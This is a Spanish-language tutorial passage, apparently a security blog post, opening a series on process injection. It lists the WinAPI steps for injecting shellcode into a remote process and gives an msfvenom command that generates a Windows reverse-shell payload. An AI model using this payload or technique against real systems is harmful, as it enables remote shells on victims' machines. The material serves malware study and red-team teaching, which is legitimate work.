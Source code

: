 ```yaml
---
title: "Process Injection Parte 1: Inyección Remota Básica"
date: 26-07-2024 00:00:00 +0800
categories: [Malware, Process Injection]
tags: [malware, Process Injection]
author: 0xB3L14L
description: Primera parte de esta serie de Inyección de Proceso, donde se mostrará una simple inyección con las funciones VirtuAllocEx, WriteProcessMemory, y CreateRemoteThread del WinAPI. Siendo esto la base para las técnicas futuras.
lang: es
permalink: /posts/Shellcode_Injection
image:
  path: /Media/Images/Process-Injection-Shellcode/Remote_Process_Injection.png
---
```

La **Inyección de Proceso** es una técnica que se utiliza para inyectar un payload en la memoria de un proceso, este payload puede ser un shellcode o un DLL. Esta técnica tiene tres pasos fundamentales:

1. Asignar un espacio en la memoria (buffer).
2. Escribir el payload en el buffer.
3. Ejecutar el payload.

Estos tres pasos sirven para hacer una inyección local, y dependiendo de la subtécnica de inyección se aumentarán los pasos.

Para hacer la inyección a un proceso remoto se debe realizar los siguientes pasos:

1. Encontrar el proceso remoto. (***`CreateToolHelp32Snapshot`, `Process32First`, `Process32Next`***)
2. Conseguir un handle al proceso remoto. (***`OpenProcess`***)
3. Asignar un buffer en el proceso remoto. (***`VirtualAllocEx`***)
4. Escribir el shellcode en el buffer. (***`WriteProcessMemory`***)
5. Asignar el permiso de ejecución **"X"** al buffer. (***`VirtualProtectEx`***)
6. Ejecutar el buffer. (***`CreateRemoteThread`***)

El shellcode que se va a utilizar será generado por msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -a x64 -f c --platform windows
```

## **Encontrar Proceso Remoto**

Para poder hacer la inyección del shellcode se necesita el PID del proceso remoto, el PID es un valor arbitrario, cada vez que un programa se ejecuta va a tener un PID distinto.

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-1.png)
_Primera vez que se ejecuta el notepad, tiene el PID `6716`_

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-2.png)
_Segunda vez que se ejecuta el notepad, ahora tiene el PID `1036`_
